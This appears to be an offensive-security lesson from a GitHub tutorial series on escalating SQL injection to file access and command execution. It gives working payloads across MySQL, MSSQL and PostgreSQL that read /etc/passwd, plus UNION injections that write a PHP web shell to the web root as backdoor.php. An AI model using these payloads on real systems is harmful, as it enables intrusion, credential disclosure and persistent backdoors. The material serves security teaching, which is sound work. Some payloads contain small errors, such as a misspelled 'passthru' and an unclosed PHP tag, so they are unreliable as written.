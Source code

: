 # FOOTHOLD AND S.O. EXPLOITING FROM SQL INJECTION - LESSON 03

Once we discovered and successfully exploited an SQLi we have, in some
specific case, the opportunity to access portions of the operating system.
For some databases, like MSSQL, we can execute arbitrary commands through the
database itself, while for others we can abuse the file access (read and write)
to achieve the same purpose.

The potentialities are enormous because we can extend our reach.
This means, for example, that a SQLi vulnerable application can be used to
target other hosts in a private network using the database as a pivot.

## 'LFI (Local File Inclusion)

An attacker can use LFI to trick a web application to expose a file present on
the web server.
This is useful to read code, configurations, find stored credentials and in
general for information gathering.

### READING FILE IN MySQL

```sql
CREATE TABLE `users` (user char(50));
LOAD DATA INFILE '/etc/passwd' INTO TABLE `users`;
```
This code creates a table `users` with one column `user` and populates it
from the file `/etc/passwd`. `LOAD DATA INFILE` reads data froma text file into
a table.

```sql
SELECT LOAD_FILE('/etc/passwd');
```
`LOAD_FILE` statement in MySQL allow us to read a file from filesystem without
creating a table before, outputting the result as we executed a standard query.

#### Limitations
`LOAD DATA INFILE` and `LOAD_FILE` can be used if the database user that is
executing the query has the `FILE` privilege.
If the `secure_file_priv` system variable is set to a nonempty directory name,
the file to be loaded must be located in that directory.
The target file must be a world readable file.
The argument passed to `LOAD_FILE` can be HEX, like `SELECT LOAD_FILE(0x2F6574632F706173737764)`, while the argument passed to
`LOAD DATA INFILE` must be a string literal.

#### Example
Given this PHP code, and assuming that the DB user has the `FILE` privilege:

```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    echo $row['title'];
  }
```

We already tested the number of columns:

Using `$_GET[id] = "1' UNION ALL SELECT 1, 2, 3 -- -"` the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, 2, 3 -- -'
```

At this point we can can use the `LOAD_FILE` statement in combination with the
`UNION` to read the `/etc/passwd` file.

Using `$_GET[id] = "1' UNION ALL SELECT 1, LOAD_FILE('/etc/passwd'), 3 -- -"` the query produced will be:

```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, LOAD_FILE('/etc/passwd'), 3 -- -'
```

This query will output an addition row with the content of the file `/etc/passwd`.

| title |
|-------|
| Title news 1 |
| Title news 2 |
| root:x:0:0:root:/root:/bin/bash<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />....<br />john:x:13:13:proxy:/bin:/usr/bin/bash |


### READING FILE IN MSSQL
`BULK INSERT` in MSSQL allow us to insert in a table the content of a file.
This function, combined with staked queries that are always available in MSSQL,
allow us to read file on the fly.

```sql
CREATE TABLE mydata (line varchar(8000));
BULK INSERT mydata FROM 'c:\boot.ini';
SELECT line FROM mydata;
DROP TABLE mydata;
```

This code creates a table `mydata` with one column `line` and populates it
from the file `c:\boot.ini`. `BULK INSERT` reads data from text file into
a table. The final statement simply drop the previously created table.

#### Limitations
We need the `ADMINISTER BULK OPERATIONS` permission.

### READING FILE IN POSTGRESQL
`COPY` moves data between PostgreSQL tables and standard file-system files.
With `COPY FROM` we can copy the data from a file to a table.

```sql
CREATE TABLE mydata(t text);
COPY mydata FROM '/etc/passwd';
SELECT t FROM mydata;
DROP TABLE mydata;
```

This code creates a table `mydata` with one column `t` and populates it
from the file `/etc/passwd`. `COPY` reads data from text file into
a table. The final statement simply drop the previously created table.

#### Limitations
The file must be a world readable file.

## 'FILE WRITING
As for file reading, DBMSs expose certain functions to write file on the
filesystem.


### WRITING FILE IN MySQL

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/backdoor.php';
SELECT '<?php system($_GET["cmd"]); ?>' INTO DUMPFILE '/var/www/backdoor.php';
```

This code will write the result of the select, in this case `<?php system($_GET["cmd"]); ?>` in the file `/var/www/backdoor.php`, creating a
backdoor on the webserver.
The file that we attempt to write must be a world writable file.
Exploit this function in conjunction with an SQLi is fairly trivial.
`DUMPFILE` allow us to write a binary file while `OUTFILE` not.

#### Example
Given this PHP code, and assuming that the DB user has the `FILE` privilege:

```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    echo $row['title'];
  }
```

We already tested the number of columns:

Using `$_GET[id] = "1' UNION ALL SELECT 1, 2, 3 -- -"` the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, 2, 3 -- -'
```

At this point we can can use the `INTO OUTFILE` statement in combination with the
`UNION` to write our backdoor.

Using `$_GET[id] = "1' AND 1=0 UNION ALL SELECT null, '<?php system($_GET["cmd"])', null INTO OUTFILE '/var/www/backdoor.php' -- -"` the query produced will be:

```sql
SELECT id, title, content FROM pages WHERE id = '1' AND 1=0 UNION ALL SELECT null, '<?php system($_GET["cmd"])',null INTO OUTFILE '/var/www/backdoor.php' -- -'
```
This code will write our php code in the file `/var/www/backdoor.php`.
Some note:

- We added `AND 1=0` to exclude the output of the original query from being
writed to our file.
- Similarly we hide the other columns output using `NULL` instead of the classic
numbers.
- We need to know the absolute path of the file that we want to write to be
sure that we can access to it from the Webserver.

### WRITING FILE IN MSSQL
There is no command to write files directly in MSSQL.
We can use a stored procedure but we will see some advanced trick in the next chapter to obtain file writing.

### WRITING FILE IN POSTEGRESQL
As for file reading, in PostgreSQL we can abuse the copy function to obtain
file writing.

```sql
CREATE TABLE mydata (t text);
INSERT INTO mydata (t) VALUES ('<? pasthru($_GET[cmd]); ?>');
COPY mydata (t) TO '/tmp/test.php';
DROP TABLE mydata;
```
This code creates a table `mydata` with one column `t`.
This table is populated with the next `INSERT` statement.
The `COPY` reads data from the table a write it into the file `/tmp/test.php`.
So `COPY` can be used with `FROM` to read from files and with `TO` to write to
a file.

#### Limitations
The file must be a world writable file.

### 'RCE (Remote Command Execution)
This is what we always want, or not?
This ability allow us to start a privilege escalation on the server, using the
server as pivot and much much more.
